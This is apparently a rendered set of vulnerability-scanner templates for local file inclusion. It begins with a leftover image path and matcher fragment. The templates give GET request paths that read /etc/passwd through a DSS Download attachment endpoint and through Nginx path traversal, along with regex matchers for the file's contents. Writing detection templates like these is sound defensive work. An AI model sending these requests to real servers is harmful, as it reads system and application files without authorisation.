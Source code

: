 - status
  1. 200

---

# DSS Download - Local File Inclusion

## Description

- DSS Download is vulnerable to local file inclusion.
- severity - high
- tags - lfi,dss,lfr

## Requests

- Method - GET

### URL

- {{BaseURL}}/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0:

**Type - status**

- status
  1. 200

---

# Nginx Server - Local File Inclusion

## Description

- Nginx server is vulnerable to local file inclusion.
- severity - high
- tags - exposure,config,lfi,nginx

## Requests

- Method - GET

### URL

- {{BaseURL}}///////../../../etc/passwd
- {{BaseURL}}/static///////../../../../etc/passwd
- {{BaseURL}}///../app.js
